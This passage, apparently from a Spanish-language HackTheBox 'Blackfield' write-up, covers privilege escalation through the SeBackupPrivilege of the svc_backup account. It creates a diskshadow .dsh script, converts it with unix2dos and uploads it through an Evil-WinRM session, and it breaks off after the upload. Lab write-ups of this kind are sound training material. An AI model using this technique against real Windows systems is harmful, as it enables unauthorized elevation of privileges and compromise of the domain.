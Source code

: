 ![](/assets/images/HTB/Blackfield-HackTheBox/privs.webp)

Busco algo de información sobre aquellos privilegios que tiene el usuario svc_backup y encuentro el siguiente recurso

[https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)

En el artículo encontramos 2 métodos, yo relizaré el método 1.

1. Creamos un archivo con extensión.dsh con el siguiente contenido.

![](/assets/images/HTB/Blackfield-HackTheBox/elc4br4dsh.webp)

2. Ejecutamos el comando `unix2dos raj.dsh` para convertir el archivo a formato DOS

Dentro de la sesión Winrm ejecutamos estos comandos.

3. Subimos el archivo elc4br4.dsh

```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> upload /home/elc4br4/HTB/Blackfield/elc4br4.dsh
Info: Uploading /home/elc4br4/HTB/Blackfield/elc4br4.dsh to C:\Users\Administrator\Desktop\elc4br4.dsh

                                                             
Data: 112 bytes of 112 bytes copied

Info: Upload successful!
```
